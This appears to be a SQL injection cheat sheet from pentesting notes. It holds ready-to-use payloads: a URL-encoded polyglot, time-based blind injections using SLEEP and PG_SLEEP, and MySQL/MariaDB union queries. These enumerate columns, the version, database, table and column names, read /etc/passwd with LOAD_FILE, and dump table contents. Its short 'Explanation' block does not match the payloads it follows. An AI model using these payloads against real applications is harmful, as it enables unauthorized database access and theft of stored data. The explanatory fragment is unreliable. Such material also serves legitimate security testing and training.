 ```console
1%27/**/%256fR/**/50%2521%253D22%253B%2523=="0\"XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z",===query=login&username=rrr';SELECT PG_SLEEP(5)--&password=rr&submit=Login==' AND (SELECT 8871 FROM (SELECT(SLEEP(5)))uZxz)
```

#### Explanation

```console
1=1    // is always true
--     // comment
-      // special character at the end just because of sql
```

### Common Injections

#### MySQL & MariaDB

##### Get Number of Columns

```console
-1 order by 3;#
```

##### Get Version

```console
-1 union select 1,2,version();#
```

##### Get Database Name

```console
-1 union select 1,2,database();#
```

##### Get Table Name

```console
-1 union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<DATABASE>";#
```

##### Get Column Name

```console
-1 union select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<DATABASE>" and table_name="<TABLE>";#
```

##### Read a File

```console
SELECT LOAD_FILE('/etc/passwd')
```

##### Dump Data

```console
-1 union select 1,2, group_concat(<COLUMN>) from <DATABASE>.<TABLE>;#
```
